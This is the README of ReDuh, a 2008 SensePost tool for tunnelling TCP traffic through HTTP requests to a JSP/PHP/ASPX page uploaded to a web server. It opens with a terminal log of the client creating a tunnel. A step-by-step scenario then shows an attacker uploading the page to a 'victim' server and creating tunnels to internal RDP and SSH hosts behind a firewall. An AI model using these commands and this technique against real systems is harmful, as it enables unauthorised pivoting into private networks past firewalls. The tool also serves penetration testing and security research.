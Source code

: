 
```
java ‐jar reDuhClient.jar http://192.168.1.119/reDuh.aspx

[Info]Querying remote web page for usable remote service port
[Info]Remote RPC port chosen as 42000
[Info]Attempting to start reDuh from 192.168.1.119:80/reDuh.aspx. Using service port 42000. Please wait...
[Info]reDuhClient service listener started on local port 1010

root@John:~# telnet 127.0.0.1 1010
Trying 127.0.0.1...
Connected to 127.0.0.1.
Escape character is '^]'.
Welcome to the reDuh command line
>>[createTunnel]30080:127.0.0.1:80
Successfully bound locally to port 30080. Awaiting connections.

tcp6 0 0 :::1010 :::* LISTEN 6102/java
tcp6 0 0 :::30080 :::\* LISTEN 6102/java



```

# 1. Name
ReDuh
# 2. Authors
Glenn  
Ian de Villiers < ian(at)sensepost(dot)com >  
Gert Burger < gert(at)sensepost(dot)com >  
# 3. License, version & release date
License : GPL  
Version : v.0.3  
Release Date : 2008/07/29
# 4. Description
ReDuh was released as part of SensePost's BlackHat USA 2008 talk on tunnelling data in and out of networks.
ReDuh is a tool that can be used to create a TCP circuit through validly formed HTTP requests.
Essentially this means that if we can upload a JSP/PHP/ASP page on a server, we can connect to hosts behind that server trivially.
# 5. Usage
## 5.1 Basic Overview
1. Glenn has the ability to upload / create a JSP page on the remote server
2. Glenn wishes to make an RDP connection to the server term-serv.victim.com (visible to the web-server behind the firewall)
3. The firewall permits HTTP traffic to the webserver but denies everything else 
4. Glenn uploads reDuh.jsp to http://ubuntoo.victim.com/uploads/reDuh.jsp
5. Glenn runs reDuhClient on his machine and points it to the page: $ `java -jar reDuhClient.jar http://ubuntoo.victim.com/uploads/reDuh.jsp` (http or https)
6. Glenn administers reDuhClient by connecting to its management port (1010 by default)
7. Once connected, Glenn types: `[createTunnel]1234:term-serv.victim.com:3389`
8. Now Glenn launches his RDP client and aims it at localhost:1234

The system can handle multiple connections, so while RDP is running, we can use the management connection `(on port 1010) ` again, and request `[createTunnel]5555:sshd.victim.com:22`
Glenn can now ssh to localhost on port 5555 to access the sshd on sshd.victim.com (while still running his RDP session)  
## 5.2 Un-needed technical details
1. Behind the scenes, reDuhClient starts listening on 1234 and sends an HTTP message to /uploads/reDuh.jsp which opens a socket to term-serv.victim.com:3389
2. Any traffic sent to the local socket on 1234 is encoded, and wrapped in HTTP requests and is sent to the /uploads/reDuh.jsp
3. Any traffic from term-serv.victim.com:3389 to the jsp is placed in a queue and sent back to reDuhClient when it requests it

# 6. Requirements
ability to upload / create a JSP page on the remote server
## 6.1 Disclaimer
The JSP version of reDuh is the most deployed/used/tested version. ASPX & PHP ports were done for completeness (but not extensively tested). Please let us know if you have any bug reports on any of these tools
# 7. Additional Resources 
Blackhat USA 2008 slides: http://www.sensepost.com/cms/resources/labs/conferences/eye_of_the_needle/SensePost_Eye_of_a_Needle.pdf
